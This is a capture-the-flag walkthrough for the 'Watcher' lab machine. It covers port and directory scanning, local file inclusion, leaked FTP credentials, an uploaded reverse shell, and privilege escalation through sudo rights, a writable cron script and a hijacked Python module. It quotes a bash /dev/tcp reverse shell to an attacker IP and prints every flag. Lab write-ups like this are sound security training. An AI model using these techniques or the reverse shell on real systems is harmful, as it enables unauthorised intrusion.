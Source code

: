 > Watcher

**export IP=10.10.118.204**

# Nmap

nmap -sC -sV -T4 -Pn -p- -vv -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
```

# Gobuster

sudo gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,sql,bak,zip,tar,js,bin,cgi -o gobuster/initial

```
/images (Status: 301)
/index.php (Status: 200)
/post.php (Status: 200)
/css (Status: 301)
/robots.txt (Status: 200)
```

# Nikto

nikto -h http://$IP

```
+ Entry '/flag_1.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
```

# robots.txt

```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

# Flag1.txt

```
FLAG{robots_dot_text_what_is_next}
```

We can't read the other file let's move onto investigating the page-source. And we found a url `http://10.10.32.232/post.php?post=striped.php`. Looks like we can acess files using LFI. Let's try the other file.

`http://10.10.32.232/post.php?post=secret_file_do_not_read.txt` and we have the contents and FTP username and password.

```
  Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will

----------

ftpuser:givemefiles777
```

We got 2 usernames `Mat` and `Will`. We can now login to ftp and we have a directory `files` and `flag2.txt`

# Flag2.txt

```
FLAG{ftp_you_and_me}
```

We have write access to files directory in FTP and now we can put a simple reverse shell in and access it using post.php. We got a reverse shell!!

In `/var/www/html/more_secrets_a9f10a` we got flag3.txt

# Flag3.txt

```
FLAG{lfi_what_a_guy}
```

sudo -l

```
User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

sudo -u toby bash. We are in as `toby`

# Flag4.txt

```
FLAG{chad_lifestyle}
```

Let's search /home directory. 

# toby

## note.txt

```
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

In /jobs direcotry, we got `cow.sh`. 

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
bash -i >& /dev/tcp/10.8.107.21/1233 0>&1
```

cow.sh is run by mat and we have write access as toby.

## /etc/crontab

```
*/1 * * * * mat /home/toby/jobs/cow.sh
```

# Flag5.txt

```
FLAG{live_by_the_cow_die_by_the_cow}
```

## note.txt

```
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

sudo -l

```
User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

We have `cmd.py` and `will_script.py`. 

will_script.py makes use of cmd.py using function get_command. Let's chane the contents of cmd.py with a python reverse shell and execute will_script.py.

sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1

We are in as will.

# Flag 6

```
FLAG{but_i_thought_my_script_was_secure}
```

In /opt directory we got /backups. And we got `key.b64` which is base64 encoded. And decoding it we got SSH key.

chmod 600 id_rsa
ssh -i id_rsa root@$IP

# Flag7.txt

```
FLAG{who_watches_the_watchers}
```